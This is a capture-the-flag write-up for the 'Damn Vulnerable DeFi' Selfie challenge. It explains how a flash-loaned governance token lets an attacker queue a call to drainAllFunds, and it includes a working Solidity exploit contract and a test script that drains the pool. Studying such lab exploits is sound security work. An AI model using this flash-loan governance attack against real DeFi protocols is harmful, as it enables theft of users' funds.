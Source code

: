 ```yaml
---
layout: post
date:   2022-08-19 12:59:00 -0500
categories: DeFi flashloan Governance
title: Damn Vulnerable DeFi - Selfie
---
```


## Analysis
`SelfiePool` is a simple flash loan pool that allows `onlyGovernance` user to drain the pool

The `flashLoan` routine must be invoked from contract that implements a routine with the signature: `receiveTokens(address, uint256)`

The `drainAllFunds` will drain the funds into a target denoted `receiver` account.

`SimpleGovernance` implements a `governanceToken` used to determine if a user has enough votes to queue an action.
- Q. How does a user acquire `governanceToken`?

    A. By lending from the pool

`actions` is a mapping of ids to `GovernanceAction`

A `GovernanceAction` is an arbitrary routine invoked with some `weiAmount`

An external invoker can interact with the routines `executeAction`, and `queueAction`.

The routine `queueAction` attempts to prevent an invoker from queing an action against the `GovernanceAction`.

The routine `executeAction` routine invokes the arbitrary routine on the target contract denoted `receiver` in the specified action.

## Problem
There exists a sequence of operations that lead to the `drainAllFunds` to be invoked with the attacker's EOA address. This is because `SimpleGovernance`'s `queueAction` does not protect against queuing actions against the pool. `drainAllFunds` is implemented by the pool.

The same token used to manage governance can be flashloaned.

## Exploit

- ExploitSelfie.sol

```sol
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "../selfie/SimpleGovernance.sol";
import "../selfie/SelfiePool.sol";
import "../DamnValuableTokenSnapshot.sol";
import "@openzeppelin/contracts/utils/Address.sol";

contract ExploitSelfie {

    using Address for address payable;

    SelfiePool immutable private pool;
    SimpleGovernance immutable private governance;
    DamnValuableTokenSnapshot private governanceToken;

    address immutable private  owner;


    constructor (address poolAddr,
     address govAddr) {
        pool = SelfiePool(poolAddr);
        governance = SimpleGovernance(govAddr);
        owner = msg.sender;
    }

    function exploit(uint256 borrowAmount) external payable {
        // invoke flashloan
        // which should trigger receiveTokens
        pool.flashLoan(borrowAmount);

    }

    function receiveTokens(address target, uint256 amount) external payable {
        require(msg.sender == address(pool));

        governanceToken = DamnValuableTokenSnapshot(target);

        governanceToken.snapshot();

        // Queue an action

        // Set up action.data
        // prepare a call for the drainAllFunds function
        bytes memory data = abi.encodeWithSignature(
            "drainAllFunds(address)",
            // receiver is attacker/owner
            owner);

        // invoke queueAction
        governance.queueAction(
            address(pool),
            data,
            0
        );

        // payback the loan
        governanceToken.transfer(address(pool), amount);
    }

}
```

- selfie.challenge.js

```js
    it('Exploit', async function () {

        /** CODE YOUR EXPLOIT HERE */
        const ExploitSelfieFactory = await ethers.getContractFactory("ExploitSelfie", attacker);
        const ExploitSelfie = await ExploitSelfieFactory.deploy(this.pool.address, this.governance.address);

        await ExploitSelfie.connect(attacker).exploit(TOKENS_IN_POOL);

        // advance the time by 2 days
        await ethers.provider.send("evm_increaseTime", [2 * 24 * 60 * 60]); // 2 day

        await this.governance.executeAction(1);

    });
```

## Explanation
1. `GovernanceAction` can be used to trigger an arbitrary contract call. We need to trigger `drainAllFunds`. This function is owned by `SelfiePool` which will be specified as the queue action receiver.

2. To queue an action, an invoker needs to own more than half of the tokens available. This can be satisfied by borrowing from the pool.

3. The queued action is timed and can be executed after two days. Hence, the loan can be returned in time and the exploit triggered in future.
